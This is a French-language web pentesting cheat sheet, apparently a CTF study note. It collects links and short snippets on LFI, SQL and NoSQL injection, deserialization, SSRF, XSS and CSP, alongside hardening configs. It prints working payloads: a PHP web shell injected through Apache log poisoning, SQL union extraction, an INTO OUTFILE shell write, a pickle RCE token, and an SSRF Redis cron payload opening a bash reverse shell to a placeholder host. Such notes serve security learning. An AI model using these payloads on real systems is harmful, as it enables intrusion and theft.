


## Doc

- [OWASP Cheatsheet Series - Top 10][https://cheatsheetseries.owasp.org/IndexTopTen.html]
- [Mozilla Client Docs](https://developer.mozilla.org/en-US/doc)
- [Top 10 PortSwigger 2023](https://portswigger.net/polls/top-10-web-hacking-techniques-2023)
- https://book.hacktricks.xyz/todo/other-web-tricks

## Outils

- https://owasp.org/www-community/Source_Code_Analysis_Tools

- [Burp](https://portswigger.net/burp)
- [Curl (cheatsheet)](https://devhints.io/curl)
- [Jwt_tool](https://github.com/ticarpi/jwt_tool)
- [Beeceptor](https://beeceptor.com/)

- [Obfu](https://deobfuscate.relative.im/)
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [Gopherus](https://github.com/tarunkant/Gopherus)
- [Nuclei](https://red-security.fr/t/tutoriel-nuclei/92)
- [RSS Validator](https://validator.w3.org/feed/)
- [Tplmap](https://github.com/epinna/tplmap)
- [Grunt-Retire.js](https://github.com/RetireJS/grunt-retire)

- [Wayback machine ](https://archive.org), https://archive.md/ (web archive par mots clés & copie de sites)

### API & CRUD

- https://fastapi.tiangolo.com/
- https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html
- https://en.wikipedia.org/wiki/Create,_read,_update_and_delete
- https://cloud.mongodb.com

### Serveur web - Ngrok

#### SimpleHTTPServer

```
ngrok tcp 8000 #éviter http
python -m http.server 8000 #dossier adéquat
```

Accéder 

`http://X.tcp.eu.ngrok.io:port`

#### LAMP

`pacman -S apache php-apache certbot-apache`

- https://www.digitalocean.com/community/tutorials/how-to-install-lamp-stack-on-ubuntu

`sudo chown -R http:http /srv/http`

*chrooter le serveur si possible*

```bash
# /etc/httpd/conf/httpd.conf
DocumentRoot "/srv/http"
Listen 8000
#Include conf/extra/httpd-userdir.conf
Include conf/vhosts/domainname1.dom
#LoadModule mpm_event_module modules/mod_mpm_event.so
LoadModule mpm_prefork_module modules/mod_mpm_prefork.so
LoadModule php_module modules/libphp.so
AddHandler php-script .php
...
<IfModule unixd_module>
User http
Group http
</IfModule>
<Files ".ht*">
    Require all denied
</Files>

ServerTokens Prod
ServerSignature Off
```

`mariadb-secure-installation`

```bash
# /etc/php/php.ini
[PHP]
extension = mysqlnd.so
extension = pdo.so
extension = pdo_mysql.so

safe_mode = On
expose_php = Off
max_execution_ime = 30
memory_limit = 8M
magic_quotes_gpc = Off
display_errors = Off

disable_functions = exec,system,popen,proc_open,passthru,fsockopen,ftp_connect,ftp_ssl_connect,dl_open,mail
enable_dl = Off
allow_url_fopen = Off
file_uploads = Off

[SQL]
sql.safe_mode = On
```

```bash
# or iptables
sudo ufw enable
sudo ufw allow 8000/tcp
```

```bash
ngrok tcp 8000
sudo systemctl restart httpd
```

- https://wiki.archlinux.org/title/Apache_HTTP_Server
- https://wiki.archlinux.org/title/MariaDB
- https://www.noip.com/ #free dns
- https://certbot.eff.org/instructions #free ssl

- https://www.linode.com/docs/guides/securing-your-lamp-stack/
- https://www.root-me.org/fr/Documentation/Reseaux/Application/Securiser-Apache

### Simple WebSite (React app + backend + db)

- https://devdocs.io/
- https://docs.docker.com/samples/react/

## Extensions

### Firefox

- [Hacktools](https://addons.mozilla.org/fr/firefox/addon/hacktools/)
- [Wappalyzer](https://addons.mozilla.org/fr/firefox/addon/wappalyzer/)
- [ProtonPass](https://proton.me/fr/pass/download)
- [Ublock](https://addons.mozilla.org/fr/firefox/addon/ublock-origin/)
- [DotGit](https://github.com/davtur19/DotGit) **avec** https://github.com/arthaud/git-dumper
- [Shodan](https://addons.mozilla.org/en-US/firefox/addon/shodan-addon/)
- [FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/)
- [Retire.js](https://retirejs.github.io/retire.js/)

### Chrome (only)

- [Shodan](https://chromewebstore.google.com/detail/shodan/jjalcfnidlmpjhdfepjhjbhnhkbgleap)
- [Tempmail](https://chromewebstore.google.com/detail/temp-mail-disposable-temp/inojafojbhdpnehkhhfjalgjjobnhomj)

### Burp

`Never trust user input`

- [Hackvertor](https://github.com/hackvertor/hackvertor)
- [JWT](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6)
- [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
- [Param Miner](https://github.com/portswigger/param-miner)

## Cheatsheet

- http://wikisecu.fr/doku.php?id=web
- https://infosec.mozilla.org/guidelines/web_security#web-security-cheat-sheet

- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Hacktricks](https://book.hacktricks.xyz/welcome/readme), [Hacktricks - Bypass 403](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses)
- [Cheatsheet XSS (Ruulian)](https://0xhorizon.eu/fr/cheat-sheet/xss/)
- https://www.nzeros.me/2023/08/07/securinetsminictf2k22/
- https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Spring%20boot%20-%20Reference%20guide.pdf

## Encoding

- https://www.joelonsoftware.com/2003/10/08/the-absolute-minimum-every-software-developer-absolutely-positively-must-know-about-unicode-and-character-sets-no-excuses/

**Serveur**

### Broken Auth

- IDOR
- [Password Reset Poisoning](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Account%20Takeover#password-reset-feature)
- [UUID - Sandwich Attack](https://github.com/Lupin-Holmes/sandwich)

### GraphQL

 - https://www.next-decision.fr/wiki/differentes-categories-api-majeures-rest-soap-graphql
 - https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/
 - https://ivangoncharov.github.io/graphql-voyager/


### LFI

- https://www.clever-age.com/owasp-local-remote-file-inclusion-lfi-rfi/

`Protection`: 

```php
<?php
$file = basename(realpath($_GET["filename"]));
include("pages/$file");
?>
```
et `.htaccess`

`allow_url_include = Off` pour PHP<7.4.0

#### Apache Log Poisoning

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/apache

```bash
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

### SQLi

- https://mariadb.com/resources/blog/how-to-connect-python-programs-to-mariadb/
- https://gonzalo123.com/2021/10/25/listen-to-postgresql-events-with-pg_notify-and-python/

BEUST: Blind,Error,Union,Stacked,Time-based

  - https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/
  - https://pentestmonkey.net/cheat-sheet/sql-injection/
  - https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
  - https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/
  - https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/
  - https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-with-sqlmap/

`Union classic`:

```
' union select 0,0,0,0 #

' union select 0,0,table_name,0 from information_schema.tables #

' union select 0,0,column_name,0 from information_schema.columns where table_name='chall' #

 ' union select id, origine, message, 0 from chall #
```

#### R/W file

```
# Read file
UNION SELECT LOAD_FILE ("etc/passwd")-- 

# Write a file
UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-
```

#### RCE - GCC extension

- https://pentestmonkey.net/category/tools/audit

`Protection`: [quoted & prepared statements](https://phpdelusions.net/mysqli_examples/prepared_select)

### NoSQLi

  - https://www.mongodb.com/community/forums/t/unrecognized-pipeline-stage-name-search/111883
  - https://www.dailysecurity.fr/nosql-injections-classique-blind/

```
https://www.vulnerable.com/search?id=23277%22}},{%22$lookup%22:{%22from%22:%22flag%22,%22as%22:%22str%22,%22foreignField%22:%22flag%22,%22localField%22:%22flag
```

### SSTI

- https://cheatsheet.hackmanit.de/template-injection-table/

### Java 

- `Deserialize` https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
- 		https://www.synacktiv.com/publications/java-deserialization-tricks
- `Log4j` https://www.lunasec.io/docs/blog/log4j-zero-day/

### PHP

  - **Bypass `preg_match(" | _/")`** : `.`, ou `]` ou encore d'autres caractères peuvent remplacer `_`:  https://ctftime.org/writeup/11535 
  -  https://borelenzo.github.io/stuff/2023/10/31/hidden-in-plain-sight.html
  - `Type Juggling` https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf
  - `Phar` https://github.com/php/php-src/security/advisories/GHSA-jqcx-ccgc-xwhv
  - `Eval` https://www.defenxor.com/blog/writing-simple-php-non-alphanumeric-backdoor-to-evade-waf/
  - `Serialize` https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
  -  https://www.saotn.org/exploit-php-mail-get-remote-code-execution/

#### CGI - bypass `disable_functions`

- https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/
- https://github.com/BorelEnzo/FuckFastcgi

`Protection`:

- https://stackoverflow.com/questions/1271899/disable-php-in-directory-including-all-sub-directories-with-htaccess

```
#.htaccess
php_flag engine off
```

### Python

  - `Flask`: https://ctftime.org/writeup/36100
  - `Pickle`: https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/, [Doc Python __reduce__](https://docs.python.org/3/library/pickle.html#object.__reduce__), [Procoles (version pickle)](https://stackoverflow.com/questions/23582489/python-pickle-protocol-choice), [Pickle](https://stackoverflow.com/questions/7501947/understanding-pickling-in-python)

  ```python
  #protocol <= 2: python2, 2<protocol<=4: python3
  token = base64.b64encode(pickle.dumps(Exploit(), protocol=0))
  ```

### SSRF
  - https://www.vaadata.com/blog/fr/comprendre-la-vulnerabilite-web-server-side-request-forgery-1/
  - https://www.dailysecurity.fr/server-side-request-forgery/

```bash
file://index.php
file:///etc/passwd

for i in {1..10000}; do curl -s -i http://site.org/index.php --data "url=http://localhost:$i" | grep 'Content-Length'| xargs echo "$i:"; done
dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port> 0>\x261\n\n\n"
```

### XXE
  - https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
 
--------

**Client**

- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://www.devsecurely.com/blog/2024/06/cors-the-ultimate-guide
- https://nathandavison.com/blog/corsing-a-denial-of-service-via-cache-poisoning

### Obfu

- https://obf-io.deobfuscate.io/
- https://js.retn0.kr/

### AST

- https://seal9055.com/blog/browser/browser_architecture


### CSRF

- https://n-pn.fr/t/1277-tout-sur-les-attack-csrf---cross-site-request-forgery
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection

`Protection:`

- anti-CSRF tokens
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value

```
Header Set-Cookie: mettre le scope de l'attribut SameSite = None
```

### DOM - notions


- `document.getElementById`

- `document.innerHTML`

Voir aussi `elements`


`Hash (#)`

- https://www.w3schools.com/jsref/tryit.asp?filename=tryjsref_loc_hash

`getElements`

- https://www.w3schools.com/js/tryit.asp?filename=tryjs_dom_getelementsbytagname

### Reverse Tabnabbing

- https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing

### XSS

 - https://liveoverflow.com/do-not-use-alert-1-in-xss/
 - https://beta.hackndo.com/attaque-xss/
 - https://excess-xss.com/
 - https://learn-cyber.net/article/Self-XSS-Attacks
 - https://learn-cyber.net/article/Reflected-XSS-Attacks

#### Filters bypass

 - https://javascript.info/script-async-defer
 - https://github.com/payloadbox/xss-payload-list
 - https://github.com/cure53/HTTPLeaks/tree/main
 - https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code
 - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads

`Protection`: HTML-encode les entrées utilisateurs, CSP

`Reflected XSS`

Report link:

```html
https://vulnerable.org?parameter=
```

[Dom Based XSS](https://blog.cyxo.re/pwnme-2022/pimp-my-bicycle/)

-> appel ou accès aux éléments du DOM (ex document.getElementByID)



-> accès aux erreurs

#### CSP

[CSP Bypass](https://csplite.com/csp320/)

- https://content-security-policy.com/
- https://csp-evaluator.withgoogle.com/
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
- https://www.cobalt.io/blog/csp-and-bypasses
- https://chromestatus.com/feature/5735596811091968

rappel

```js
alert(window["docu"+"ment"]["title"])
```

Analyser les tags CSP (conserver journal,désactiver cache)



```bash
# Requête complète, headers victime
nc -nlvp 4444 

# Serveurs (ngrok tcp)
python -m http.server 4444
python -m pyftpdlib -D
```
### HTTP Smuggling

- https://franso.re/fr/blog/http_rs_pour_les_nuls

### XS -Leaks

- https://xsleaks.dev/

## Exercices

- https://alert.zeyu2001.com/
